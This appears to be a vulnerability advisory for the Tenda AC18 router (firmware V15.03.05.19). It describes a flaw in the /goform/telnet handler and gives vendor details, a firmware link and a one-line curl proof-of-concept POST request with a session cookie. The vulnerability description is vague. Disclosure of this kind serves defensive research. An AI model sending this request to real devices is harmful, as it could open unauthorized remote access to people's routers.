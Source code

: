 ## Tenda AC18 telnet

### Overview

* Vendor: Tenda

* Product: Tenda AC18
* Version: V15.03.05.19(6318)

* Manufacturer's address：https://www.tendacn.com/
* Firmware download address ：https://static.tenda.com.cn/tdcweb/download/uploadfile/AC18/ac18_kf_V15.03.05.19(6318_)_cn.zip

### Vulnerability details

An issue was discovered in Tenda AC18 V15.03.05.19(6318). An HTTP request within the handler function of the /goform/telnet route. This could lead to Shell Metacharacters.![image](./img/1.png)

#### PoC

```
curl ‐i ‐X POST http://192.168.0.1/goform/telnet ‐d aa=aa ‐‐cookie "password=f6df9d1c0
 835927e379ccc302b848f4aouh1qw"
```

![image-20250413210610225](./img/2.png)
